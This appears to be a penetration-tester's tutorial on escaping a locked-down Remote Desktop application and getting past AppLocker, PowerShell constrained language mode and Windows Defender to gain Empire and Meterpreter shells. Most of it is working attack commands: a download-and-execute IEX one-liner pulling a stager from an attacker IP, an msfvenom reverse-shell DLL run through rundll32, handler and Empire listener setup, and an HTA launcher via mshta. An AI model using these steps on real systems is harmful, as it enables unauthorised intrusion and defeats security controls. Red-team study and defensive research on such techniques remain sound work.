





# From RDS app to Empire shell

## RDS app to Empire shell

This article details a scenario where you only have access to a Remote Desktop Service. This effectively atttemps to lock you to one application one, much similar to Citrix seen in corporate environments.  
Additionally this scenario has Applocker on the target box, Powershell is in Language Constrained Mode which prevents many powershell tricks from being used. On top of that Windows Defender is eating your shells.

**Requirements:**

* The RDS server does not block port 80 outbound.
* .Net v3.5 for dll mode in PowerShdll

**Important notes**

powershell.exe _is_ not Powershell. It just hosts the assembly that contains PowerShell and handles I/O. System.Management.Automation.dll  
Learn more from the links at the bottom of this article.

#### Getting shell from RDS notepad

[https://blog.netspi.com/breaking-out-of-applications-deployed-via-terminal-services-citrix-and-kiosks/](https://blog.netspi.com/breaking-out-of-applications-deployed-via-terminal-services-citrix-and-kiosks/)  
[https://www.pentestpartners.com/security-blog/breaking-out-of-citrix-and-other-restricted-desktop-environments/](https://www.pentestpartners.com/security-blog/breaking-out-of-citrix-and-other-restricted-desktop-environments/)

From the notepad app  
Click Help -&gt; View help -&gt; triggers Internet Explorer



Right click on any link in IE -&gt; save target as -&gt; save as lol.ps1 on the Desktop

  
Press view downloads in IE, press the dropdown on the file, open with -&gt; notepad. then just write powershell.exe in the file and save again

Now right click -&gt; "save target as" in IE again. Go to the dropdown "save as type" and select "all files". The ps1-file you have saved will be revealed and you can just press "run with powershell" and a powershell prompt should pop up. This shell should be in Constrained mode. Verify with `$ExecutionContext.SessionState.LanguageMode`, which should say `ConstrainedLanguage`.


#### Bypssing PoSh constrained mode

Download PowerShdll from [https://github.com/p3nt4/PowerShdll](https://github.com/p3nt4/PowerShdll)  
Host powershdll.dll on Kali web server using `python -m SimpleHTTPServer 80`  
Navigate to the following URL in IE where [http://10.7.253.10/PowerShdll.dll](http://10.7.253.10/PowerShdll.dll)  
Save as -&gt; PowerShdll.dll to whatever folder you like. `C:\Windows\Tasks` is generally nice to use when Applocker is installed because it is usually whitelisted. But navigating to folders might also be restricted, so in certain ocassions you might need to save to `C:\Users\Username\Desktop`

I'm not sure exactly how to check for DLL rules in an Applocked environment yet.

Now navigate to the desktop in the other powershell prompt  
Use rundll32 to execute the dll  
`rundll32 .\PowerShdll.dll,main -w`  
A new interactive powershell prompt should pop up  
Verify that constrained language mode has been bypassed with  
`$ExecutionContext.SessionState.LanguageMode`  
It should say FullLanguage



**Shortcut**

Ok, so I discovered much later how to avoid having to do the two last steps. Just generate an Empire stager with `set Base64 false` and `set Outfile shell`  
Now from the unrestricted powershell, download the shell and execute it straight into memory.

```text
IEX (New-Object Net.WebClient).DownloadString('http://10.7.253.18/shell');
```

If you are lucky, Defender doesn't pick it up and you get an Empire shell / agent.

I realize after the fact that this is exactly the same steps as using msf below, just fewer hoops.


#### Getting meterpreter shell

Generate a dll payload

```text
msfvenom -a x64 --platform windows -p windows/x64/meterpreter/reverse_tcp lhost=10.10.14.2 lport=8081 -f dll -o msf.dll
```

Set up listener in msf with same payload, host and port.

```text
use multi/handler
set host tun0
set port 8081
set payload windows/x64/meterpreter/reverse_tcp
exploit
```

Download the msf.dll using the IE "save as" trick from before.  


For some reason I am not sure why the dll payload is not eaten by Windows Defender, not on disk and not when executed. It could possibly be the x64 signature of the payload is not yet recgonized as malware by Defender.

Now, use rundll32 to execute the dll. We use this because rundll32 is a binary that will not be blocked by Applocker.

`rundll32 .\msf.dll,Control_RunDLL`

Shell should now spawn in msf.



#### Empire without powershell.exe

This assumes you have a metasploit Session established.  
In Empire, create an empire listener and stager. The important things is to set Base64 to false to prevent the stager from calling powershell.exe, which won't work here because of the constrained language mode.

```text
uselistener http
set Host 10.7.253.18
set Port 4444
execute
back
usestager multi/launcher
set Base64 false
generate
```

Now in MSF:

```text
load powershell
powershell_shell
```

Copypaste the empire listener in the interactive shell, and an agent should spawn in Empire.




Congratulations!

## Extra notes

There will be environments where Applocker severely restricts which commands can be run on a system. That means no binaries that are not signed by Microsoft. Usually this means an environment where you basically have access to certain whitelisted applications like Internet explorer and notepad. This means getting a shell will be hard.

There could also be the restriction of Powershell constrained language mode too, which prevents you from running anything Powershell related. That means no Powershell scripts can be executed either.

However, both these features can be bypassed using a technique known as abusing mshta.exe, which is a binary used for executing html applications and it's typically installed along Internet Explorer.

A machine with some level of user access is of course a prequisite for this to work. The goal of this is to get a shell through an Empire agent. The only caveat of this technique is that it requires .NET framework 3.5 feature to be enabled to work .NET framework 3.5 feature is something that is not enabled by default in Windows 10 on a clean install.

We want to abuse the fact that we can launch mshta files, which is basically

Set up an Empire listener and generate a base64 encoded launcher. Copy the launcher when done

```text
uselistener http
set Port 81
execute
back
usestager multi/launcher
set Listener http
generate
agents
```

Now use StarFighter whic is JavaScript and VBScript Based Empire Launcher, which runs within their own embedded PowerShell Host. This means you don't have to rely on powershell.exe from the target, which you can't execute because of the restrictions set.

[https://github.com/Cn33liz/StarFighters](https://github.com/Cn33liz/StarFighters)

Paste the Empire launcher into the vbs or js where indicated. Name the file with .hta as extension.

```text
<body onclick="if(confirm('Close? (onclick)')){self.close();}">
<h1>Test Page</h1>
<script language="VBScript">
StarVighter.vbs contents go here with copypasted powershell
</script>
</body>
```

Then get the file on the box, right click on it, select Open with-&gt; Microsoft \(R\) HTML Application host and it should immediately launch and you should get an agent in Empire.


**Useful links** [https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/](https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/) [https://github.com/api0cradle/UltimateAppLockerByPassList](https://github.com/api0cradle/UltimateAppLockerByPassList) [http://cn33liz.blogspot.no/2016/05/bypassing-amsi-using-powershell-5-dll.html](http://cn33liz.blogspot.no/2016/05/bypassing-amsi-using-powershell-5-dll.html)

### Useful links

* [https://github.com/Ben0xA/AwesomerShell](https://github.com/Ben0xA/AwesomerShell)
* [https://www.youtube.com/watch?v=czJrXiLs0wM](https://www.youtube.com/watch?v=czJrXiLs0wM)
* [https://adsecurity.org/?p=2921](https://adsecurity.org/?p=2921)
* [https://bneg.io/2017/07/26/empire-without-powershell-exe/](https://bneg.io/2017/07/26/empire-without-powershell-exe/)
* [https://artofpwn.com/offensive-and-defensive-powershell-ii.html](https://artofpwn.com/offensive-and-defensive-powershell-ii.html)
* [https://improsec.com/blog/babushka-dolls-or-how-to-bypass-application-whitelisting-and-constrained-powershell](https://improsec.com/blog/babushka-dolls-or-how-to-bypass-application-whitelisting-and-constrained-powershell)
* [https://github.com/caseysmithrc/DeviceGuardBypasses](https://github.com/caseysmithrc/DeviceGuardBypasses)
* [https://github.com/Joshua1909/AllTheThings](https://github.com/Joshua1909/AllTheThings)
* [https://disman.tl/2015/01/30/an-improved-reflective-dll-injection-technique.html](https://disman.tl/2015/01/30/an-improved-reflective-dll-injection-technique.html)
* [https://twitter.com/gentilkiwi/status/976939139248640000](https://twitter.com/gentilkiwi/status/976939139248640000)
* 
